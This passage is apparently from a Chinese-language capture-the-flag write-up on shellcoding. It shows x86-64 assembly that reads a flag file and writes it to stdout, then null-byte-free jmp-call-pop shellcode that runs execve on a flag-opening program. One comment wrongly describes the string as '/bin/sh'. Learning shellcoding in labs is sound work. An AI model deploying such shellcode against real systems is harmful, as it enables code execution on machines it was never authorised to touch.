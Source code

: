 ```asm
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall

```


## level3

这一关在运行shellcode之前，baby程序判断读取内容中是否包含0x00字节，如果包含则拒绝运行。

我们之前的汇编代码中，字符串地址的结尾、缓冲区初始化都是0x00字节。如果使用hexdump观察的话，还有很多地址也包含0x00。所以我们不能依据之前的代码解决此关。

我们可以利用execve函数，在汇编语言中调用这个函数，去启动我们编写的一个读取flag的程序。

execve函数

```asm
BITS 64

section .text
global _start

_start:
    jmp short call_shellcode

get_address:
    pop rdi                     ; 将字符串地址弹出到RDI中
    xor rsi, rsi                ; 清空RSI
    xor rdx, rdx                ; 清空RDX
    mov al, 0x3b                ; syscall编号execve
    syscall                     ; 执行系统调用

call_shellcode:
    call get_address            ; 调用get_address来获取字符串地址
    db '/home/hacker/Shellcode/level3/openflag'               ; 存储字符串/bin/sh，X是占位符，避免NULL字节

```
